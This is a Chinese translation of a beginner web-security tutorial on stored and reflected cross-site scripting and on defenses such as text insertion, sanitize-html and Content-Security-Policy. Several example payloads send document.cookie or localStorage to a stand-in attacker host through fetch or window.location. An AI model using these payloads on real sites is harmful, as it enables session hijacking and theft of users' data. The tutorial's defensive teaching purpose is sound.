



# 初学者的 XSS 攻击及如何防御

> 原文：<https://javascript.plainenglish.io/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a?source=collection_archive---------5----------------------->



Cross-site scripting (javascript injection) attack was performed on Twitter by this tweet.

跨站脚本(XSS)攻击是一种注入式攻击，在这种攻击中，恶意脚本可能被注入到文档中并被执行。据[owasp.org](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html):

*“跨站点脚本(XSS)是一个误称。该名称源于早期版本的攻击，其中跨站点窃取数据是主要焦点。从那以后，它已经扩展到包括基本上任何内容的注入，但是我们仍然称之为 XSS。XSS 是严重的，可能导致帐户冒名顶替、观察用户行为、加载外部内容、窃取敏感数据等。”*

假设您构建了一个应用程序，它接受用户的一些输入，然后将其显示为 h1。这是通过使用 jquery 将 h1 的内部 HTML 设置为按钮单击时的输入值来实现的:



Take user input and set it as inner HTML

```
$("button").click(function(){         //on button click
  var input = $("input:text").val()   //grab user input
  $("h1").html(input)                 //set h1’s inner html as input
})//for react we would use <h1 dangerouslySetInnerHTML={{ __html: input}} />
```

如果用户使用 HTML 



User inputs some js code and😲 😲 😲

如您所见，用户注入的 JavaScript 代码被执行了。在上面的示例中，这只是一个简单的警报语句，但是，攻击者可以利用它来执行任何他想要的恶意代码，例如通过获取 cookie(本地存储)来劫持用户的会话，并通过 HTTP 请求将其发送到自己的服务器:

```
<script>fetch("http://www.example.com?stolenGoods=window.localStorage")</script>
```

大多数现代 web 浏览器和框架(如 react)都有内置机制，通过使用 Script 标签将 JavaScript 设置为内部 HTML 来防止注入 JavaScript。最有可能的是，js 代码将被忽略。然而，还有许多其他方式来执行这种攻击，例如使用" **onerror "、" onclick "和" onmouseover"** HTML 属性:

```

```

您可能想知道:如果用户能够在我的网站上执行一些 JavaScript 代码，那又怎么样？毕竟，他无论如何都可以通过控制台做到这一点。为什么我要担心阻止用户在我的网站上运行他自己的脚本，窃取他自己的 cookies 和他已经拥有的数据？

当用户输入被传送到你的后端服务器时，问题就出现了，在那里它也可能被存储在某个数据库中，从那里它可能被其他用户检索。

假设这是一个类似 Reddit 的应用程序上的帖子:

1.  要创建一个新的帖子，您可以在输入框中以 HTML 的形式写下它，然后向 yourwebsite.com 发送一个 HTTP 请求，将帖子作为查询参数(？post=)。
2.  您的服务器接收这个请求，创建帖子并将其保存在数据库中。
3.  希望看到该帖子的其他用户将向服务器发送请求，然后服务器将从数据库中检索该帖子并发送给用户。
4.  文章将以 HTML 格式显示给用户。

现在考虑这个场景:攻击者 **A** 通过将脚本作为用户输入来注入一些脚本，脚本现在存储在您的数据库中。

```
const attackersPost = "<script>hackersCode()</script>";
fetch("https://www.yourwebsite.com/posts/add?post=" + attackersPost)
```

现在，某个想要查看 **A** 的帖子的用户 **B** 将会不知不觉地执行由 **A** 注入的从数据库中获取的脚本。这样，所有查看该帖子的用户都将被黑客攻击！！！这被称为存储 XSS 攻击。

**储存的 XSS 攻击:**

注入的脚本存储在服务器上，当受害者试图访问存储的数据时，被受害者检索并执行。

**映 XSS 的攻击:**

如果攻击者让受害者以某种方式将脚本注入网站，而不是攻击者必须这样做，会怎么样？

让我们以上面的例子为例，用户的输入被发送到服务器，然后通过设置内部 HTML 反射回用户并显示在 DOM 上。攻击者可以通过电子邮件、社交媒体或其他社交工程方法向其目标发送链接。该电子邮件包含一个链接:

```
https://www.yourwebsite.com/posts/add?post=**<script>fetch("http://www.example.com?stolenGoods=" + document.cookie)</script>**//the malicious script will send the victim's cookie to the attacker's server and the attacker can use it to hijack the victim's session on yourwebsite.com!!!
```

当受害者点击此链接时，一个 HTTP 请求被发送到 yourwebsite.com 的服务器，在那里将创建一个帖子，该帖子将恶意脚本作为数据。这篇文章将被反射回受害者(或其他想要查看这篇文章的用户)，当您的网站试图设置内部 HTML 时，注入的脚本将被执行，受害者的 cookie 将被发送到攻击者的服务器。😵 😵 😵

**如何防御 JavaScript 注入攻击:**

通过将用户输入设置为文本而不是 HTML，我们可以很容易地防止第一个示例中的攻击:

```
//instead of
$("h1").html(input)//use this
$("h1").text(input)
```

同样，对于 react，尽量避免使用 dangerouslySetInnerHTML 属性来设置内部 HTML。

但是在您的应用程序中可能会有一些需要设置内部 HTML 的场景。为了防止用户在这种情况下向您的网站注入脚本，您可以在将用户输入设置为 HTML 之前"**净化"**。净化将使任何隐藏在 HTML 中的脚本变得无用。一个流行的 npm 包可以帮你做到这一点，它就是 [sanitize-html](https://www.npmjs.com/package/sanitize-html) 。

除此之外，我们还可以在服务器端建立机制来防止此类攻击。一种流行的方法是使用“**Content-Security-Policy**”HTTP 头。根据 [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) :

*“CSP 通过指定浏览器应视为可执行脚本有效来源的域，使服务器管理员能够减少或消除 XSS 发生的媒介。然后，CSP 兼容浏览器将只执行从那些允许的域接收的源文件中加载的脚本，而忽略所有其他脚本(包括内联脚本和事件处理 HTML 属性)。”*

因此，在您的服务器端，您可以将这个头添加到发送 HTML 文件的 HTTP 响应中，例如 index.html，这将意味着您的文档(HTML)不会执行不是来自您的 website.com 的脚本:

```
res.set("Content-Security-Policy", "script-src https://www.yourwebsite.com")// this means that only scripts from yourwebsite.com will be executed. No inline scripts or scripts from other sources.
```

**请注意，如果您从白名单域中返回的 js 本身遭到破坏，那么 js 注入攻击仍然是可能的。*

您还可以设置 CSP 的" *connect-src"* 属性来指定您的脚本可以将所有域请求发送到什么，这样请求就不会发送到攻击者的域。当我尝试使用 fetch API 向 example.com 发送请求时，控制台中出现了以下错误:

```
fetch("https://www.example.com?q=" + document.cookie)Refused to connect to 'https://www.example.com/' because it violates the following Content Security Policy directive: "connect-src https://localhost https://accounts.google.com https://medium.com https://*.medium.com https://*.medium.com https://medium.com https://*.medium.com 'self'".
```

**请注意，攻击者仍然可以使用*窃取您的 cookies(或其他信息)

```
window.location = "https://www.example.com?q=" + document.cookie
```

在这里，你可以找到更多关于如何保护 cookies 和本地存储的信息。以下是所有 [CSP 指令](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)的列表。请记住，CSP 检查是由浏览器强制执行的，因此如果用户在其浏览器中禁用此检查，她将容易受到攻击。

好了，您已经在将用户输入设置为 HTML 之前对其进行了净化，您也已经在文档响应中设置了 CSP 头，并且您已经确保来自白名单域的脚本不会受到危害，那么您的网站现在完全不会受到 XSS 攻击了吗？

不完全是，脚本仍然可以通过其他来源注入，如第三方库和软件包、浏览器插件或第三方广告！请确保使用 npm audit 来审核您的依赖项是否存在已知的安全问题。

这里有一个有趣的方法来练习 XSS 攻击，然后再尝试攻击中型:[https://xss-game.appspot.com/level1](https://xss-game.appspot.com/level1)。

*更多内容请看*[***plain English . io***](https://plainenglish.io/)*。报名参加我们的* [***免费周报***](http://newsletter.plainenglish.io/) *。关注我们关于*[***Twitter***](https://twitter.com/inPlainEngHQ)[***LinkedIn***](https://www.linkedin.com/company/inplainenglish/)*[***YouTube***](https://www.youtube.com/channel/UCtipWUghju290NWcn8jhyAw)*[***不和***](https://discord.gg/GtDtUAvyhW) ***。*****

*****对缩放您的软件启动感兴趣*** *？检查* [***电路***](https://circuit.ooo/?utm=publication-post-cta) *。***